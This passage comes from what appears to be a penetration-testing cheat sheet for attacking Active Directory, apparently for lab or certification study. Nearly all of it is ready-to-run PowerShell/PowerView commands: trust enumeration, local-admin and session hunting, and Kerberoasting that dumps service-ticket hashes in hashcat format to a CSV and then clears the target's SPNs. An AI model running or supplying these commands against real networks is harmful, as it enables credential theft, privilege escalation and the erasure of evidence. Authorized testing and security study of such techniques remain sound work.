 {% tab title="Trusts" %}
{% code overflow="wrap" %}
```powershell
# Forest domains
Get-ForestDomain | select name

# Domain trusts
Get-DomainTrust

# External trusts
Get-DomainTrust | ?{$_.TrustAttributes -eq "FILTER_SIDS"}

# External trusts (forest root)
Get-ForestDomain | %{Get-DomainTrust -Domain $_.Name} | ?{$_.TrustAttributes -eq "Filter_Sids"}

# Trusts for all domains in the specified forest
Get-ForestDomain -forest eurocorp.local | %{Get-DomainTrust -Domain $_.Name}
Get-DomainTrust -domain eurocorp.local
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Privilege Escalation

{% tabs %}
{% tab title="LA & Sessions" %}
{% code overflow="wrap" %}
```powershell
# Enumerate LA access on domain hosts
Find-PSRemotingLocalAdminAccess

# Create a host list
Get-DomainComputer | ForEach-Object { $_.cn.Trim() } > servers.txt
# List active sessions (no elevated privileges are required on the remote hosts)
Invoke-SessionHunter -NoPortScan -RawResults -Targets .\servers.txt | select Hostname,UserSession,Access
```
{% endcode %}
{% endtab %}

{% tab title="Kerberoasting" %}
Find user accounts used as service accounts with [PowerView](https://x7331.gitbook.io/boxes/tl-dr/active-directory/ad-tools/powerview):

{% code overflow="wrap" %}
```powershell
# Enumerate SPNs with PowerView
Get-DomainUser * -SPN | select samaccountname,serviceprincipalname

# Kerberoast the enumerated accounts with PowerView
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

# Kerberoast the target account with PowerView
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endcode %}
